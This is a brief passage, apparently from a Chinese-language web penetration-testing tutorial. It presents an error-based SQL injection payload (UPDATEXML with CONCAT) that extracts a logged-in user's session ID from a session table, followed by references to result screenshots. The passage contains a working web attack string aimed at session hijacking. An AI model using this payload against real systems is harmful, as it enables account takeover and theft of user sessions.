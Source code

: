现在，我们需要使用的第二个 SQL 会话负载如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,16,42) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

具体情况如下：

![](img/35074079-65cf-465d-b0fb-39a9517c5b64.png)

下面的屏幕截图给出了执行前面的 SQL 有效负载`2`的结果：

![](img/2c331c46-13d5-4910-99a2-242eb36e4c71.png)
